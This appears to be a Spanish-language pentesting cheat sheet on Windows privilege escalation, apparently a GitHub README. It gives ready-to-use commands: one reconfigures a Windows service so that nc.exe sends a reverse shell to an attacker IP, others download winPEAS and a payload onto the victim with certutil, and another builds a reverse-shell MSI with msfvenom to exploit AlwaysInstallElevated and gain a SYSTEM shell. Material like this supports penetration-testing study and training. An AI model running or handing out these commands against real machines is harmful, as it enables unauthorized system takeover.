 - Sino puedes crear un proceso o servicio puedes ver que procesos hay y modificar uno existente. Tendrías que ir probando uno a uno para ver cual puede ser modificado.<br>Una vez modificado un proceso tienes que detener el proceso y volverlo a iniciar y ponerte en escucha con ncat para que cuando se inicie el proceso te envie la reverse shell.
```
services	# Ver los procesos que se estan ejecutando.
sc.exe config <name_process> binPath="C:\Windows\Temp\nc.exe -e cmd <ip-address> 443"
# <name_process> es el nombre del proceso que quieres modificar.

sc.exe stop <name_process>	# Detener un servicio.

sudo ncat -nlvp 443		# Desde tu equipo.

sc.exe start <name_process>	# Iniciar un servicio.
```
<br><br>
## winPEAS.exe.
winPEAS es una herramienta que te ayuda a aplicar reconocimiento en el sistema e identificar posibles vectores por los cuales puedes llegar a escalar priviegios.<br>
Lo que tienes que hacer es descargar el winPEAS.exe de github para despues transferirlo a la máquina víctima con certutil.exe
```
sudo python3 -m http.server 80

certutil.exe -f -urlcache -split http://<ip-address>/winPEAS.exe winpeas.exe
winpeas.exe
```
Ya solo queda buscar por aquelas partes que esten en color rojo ya que representan una forma segura por la cual elevar privilegios.<br>
- AlwaysInstallElevated.<br>Es una directiva que te permite instalar un paquete de instalador de Windows con privilegios elevados.<br>Si esta directiva se encuentra con un 1 (AlwaysInstallElevated set to 1 in HKLM) puedes crearte un archivo malicioso con msfvenom que contenga una reverse shell para enviarte una consola como el usuario NT Authority\System.
```
msfvenom -p /window/x64/shell_reverse_tcp LHOST=<ip-address> LPORT=443 --platform windows -a x64 -f msi -o reverse_shell.msi
# -p = Para especificar el tipo de payload a utilizar.
# LHOST = IP addres a la cual quieres que se envíe la reverse shell.
# LPORT = Puerto por el cual se enviará la reverse shell.
# --platform windows -a x64 = Indica que es un OS Windows de 64 bits.
# -f = Tipo de extensión que tendrá el payload.
# -o = Nombre que tendrá el archivo al ser exportado.

certutil.exe -f -urlcache -split http://<ip-address>/reverse_shell.msi reverse.msi
# Tranferir el archivo reverse_shell.msi a la máquina con el nombre de reverse.msi

sudo rlwrap ncat -nlvp 443	# Ponerse en escucha para recibir la consola interactiva.
msexec /quiet /qn /i reverse.msi	# Ejecutar el archivo reverse.msi (Antes de ejecutarlo debes ponerte en escucha con ncat).
```


